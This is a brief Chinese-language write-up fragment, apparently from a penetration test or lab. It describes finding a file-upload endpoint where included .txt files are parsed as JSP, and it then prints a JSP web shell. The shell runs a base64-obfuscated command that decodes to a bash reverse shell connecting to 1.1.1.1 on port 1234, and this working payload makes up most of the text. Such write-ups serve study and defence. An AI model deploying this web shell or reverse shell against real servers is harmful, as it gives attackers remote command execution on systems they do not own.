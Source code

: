 发现了一个文件上传的接口

![image-20241118194428393](images/4.png)

当包含的文件是txt时，可以当作jsp进行解析

![image-20241118194457777](images/5.png)

所以传一个shell上去

```
<% java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}").getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b));  out.print("</pre>"); } %>
```
